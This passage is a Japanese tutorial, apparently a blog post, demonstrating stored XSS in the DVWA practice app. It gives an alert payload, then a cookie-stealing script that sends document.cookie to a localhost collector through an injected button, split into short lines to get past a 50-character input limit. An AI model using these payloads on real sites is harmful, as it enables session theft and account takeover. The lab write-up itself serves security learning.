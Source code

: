 ## Stored XSS

Stored XSSは、ユーザの入力がサーバに保存され、後から他のユーザがその悪意あるスクリプトを含むデータを見ることで発動するタイプのXSSです。

### 攻撃手順

まずDVWAで`XSS (Stored)`のメニューを開きます。

![スクリーンショット 2025-06-03 22.43.31.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/5eb4262c-ec84-4ff7-81d7-cbc7aa1972c9.png)

続いてNameとMessageを以下のように入力して、`Sign Guestbook`を押下します。

|Name|Message|
| ---- | ---- |
|hogehoge|`<script>alert('Stored XSS');</script>`|

すると他のユーザがページを開いたときに以下のようにalertが発生してしまいます。

![スクリーンショット 2025-06-03 22.49.08.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/2620245/c411747c-773b-4cf6-b65c-5501b1d6c794.png)

どういう仕組みかというと、追加された投稿の`<script>alert('Stored XSS');</script>`の部分がそのまま格納されてしまっているため、投稿を表示すると以下のような形になります。それによってページを開いたほかのユーザでも以下のスクリプトが反映されてしまうということです。
```html
<div id="guestbook_comments">
    "Name: hogehoge"
    <br>
    "Message: "
    <script>alert('Stored XSS');</script>
    <br>
</div>
```

これを悪用すると上記2点のXSS同様にcookieを抜き取ることができます。以下の内容をMessageに入力して、`Sign Guestbook`を押下します。


```html
<script>
  // Cookie取得とエンコード
  d = document;
  k = d.cookie;
  ek = encodeURIComponent(k);
  u = "http://localhost:8080?k=" + ek;

  // ボタン作成
  i = d.createElement("input");
  i.type = "button";
  i.value = "help";
  i.style.marginLeft = "5px"
  i.onclick = function() {
    location.href = u;
  };

  // 'Clear Guestbook' ボタンのすぐ後ろに挿入
  clearBtn = d.querySelector('input[name="btnClear"]');
  clearBtn.parentNode.insertBefore(i, clearBtn.nextSibling);
</script>
```
そのままだと文字数制限(50文字)で入力できないので、以下のように複数行に分けて入力してきます。
```html
<script>d=document</script>
<script>k=d.cookie</script>
<script>ek=encodeURIComponent(k)</script>
<script>u="http://localhost:8080?k="+ek</script>
<script>i=d.createElement("input")</script>
<script>i.type="button"</script>
<script>i.value="help"</script>
```